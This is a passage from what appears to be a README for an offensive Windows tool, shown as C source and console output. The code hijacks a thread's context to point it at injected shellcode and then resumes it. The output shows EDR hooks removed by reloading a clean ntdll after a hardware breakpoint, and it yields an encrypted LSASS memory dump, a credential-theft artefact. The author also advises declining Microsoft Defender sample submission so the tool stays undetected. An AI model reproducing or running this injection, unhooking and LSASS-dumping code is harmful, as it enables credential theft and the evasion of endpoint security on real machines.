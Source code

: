 ```
	threadContext.ContextFlags = CONTEXT_INTEGER;

	ntGetContextThread(ntThread, &threadContext);

	// Update RCX register in the context
	threadContext.Rcx = (DWORD64)hRemoteAddress;

	// Set the modified context back to the main thread
	ntSetContextThread(ntThread, &threadContext);

	// Resume the thread (you can use NtResumeThread if needed)
	ntResumeThread(ntThread, NULL);
	
	// Clean up injected process
	if(hParent) CloseHandle(hParent);
	RtlFreeHeap(RtlProcessHeap(), 0, AttributeList);
	RtlFreeHeap(RtlProcessHeap(), 0, stdHandleInfo);
	RtlFreeHeap(RtlProcessHeap(), 0, clientId);
	RtlFreeHeap(RtlProcessHeap(), 0, SecImgInfo);
 	RtlDestroyProcessParameters(ProcessParameters);

	// Close Debug process
	CloseHandle(process.hProcess);
	TerminateProcess(process.hProcess, 0);
}
```

Upon testing execution Microsoft asks to send this file for submission, please deny this.

```
C:\Users\administrator1\Desktop>.\NtCreateUserProcess.exe
[+] Creating new process in debug mode
[+] Found LdrLoadDllAddress address: 0x00007FFC875DAE00
[+] Setting HWBP on remote process
[+] Breakpoint Hit!
[+] Copying clean ntdll from remote process
[+] Found ntdll base address: 0x00007FFC875A0000
[+] Unhooked

C:\Users\administrator1\Desktop>dir
 Volume in drive C is Windows
 Volume Serial Number is 98FF-9D7F

 Directory of C:\Users\administrator1\Desktop

09/13/2023  11:49 AM    <DIR>          .
09/13/2023  10:10 AM    <DIR>          ..
09/13/2023  11:49 AM        48,420,362 LSASS_ENCRYPTED.DMP
09/13/2023  10:29 AM            22,016 NtCreateUserProcess.exe
09/12/2023  10:47 AM        25,355,496 VC_redist.x64.exe
               3 File(s)     73,797,874 bytes
               2 Dir(s)  116,271,603,712 bytes free
```


[+]: Shellcode located at c7160